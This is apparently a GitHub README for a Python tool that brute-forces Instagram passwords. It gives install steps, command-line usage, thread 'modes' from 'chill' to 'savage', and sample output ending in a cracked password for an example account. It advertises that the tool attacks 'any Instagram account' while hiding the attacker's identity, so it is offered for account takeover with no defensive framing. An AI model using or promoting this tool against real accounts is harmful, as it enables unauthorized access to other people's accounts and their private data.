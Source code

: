 # Instagram Hack with Force Brute

[![Version](https://img.shields.io/badge/Version-v2.1.1-blue)]()
[![Python](https://img.shields.io/badge/Python-v3.6%2B-blue)]()
[![Discord](https://img.shields.io/badge/Discord-server-blue)](https://discord.gg/C6AFrWQ)
[![Donate](https://img.shields.io/badge/PayPal-donate-orange)](https://www.paypal.me/Msheikh03)

This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden.

### NOTICE

I'm no longer maintaining this project.

### Requirements

-   Python _v3.x.x_
-   ~~Kali Linux 2.0~~
-   ~~TOR~~

### Install Dependencies

```
pip3 install -r requirements.txt
```

### Help

```
C:\Users\Ousmane\Desktop\Instagram>python instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

### Usage

```
python instagram.py <username> <wordlist> -m <mode>
```

### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
C:\Users\Ousmane\Desktop\Instagram>python instagram.py ousmane_oficial pass.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
C:\Users\Ousmane\Desktop\Instagram>python instagram.py ousmane_oficial pass.lst -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
C:\Users\Ousmane\Desktop\Instagram>python instagram.py ousmane_oficial pass.lst -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
C:\Users\Ousmane\Desktop\Instagram>python instagram.py ousmane_oficial pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: pass.lst
[-] Username: ousmane_oficial
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: pass.lst
[-] Username: ousmane_oficial
[-] Password: ousmane1234
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: ousmane_oficial
[+] Password: ousmane1234
```
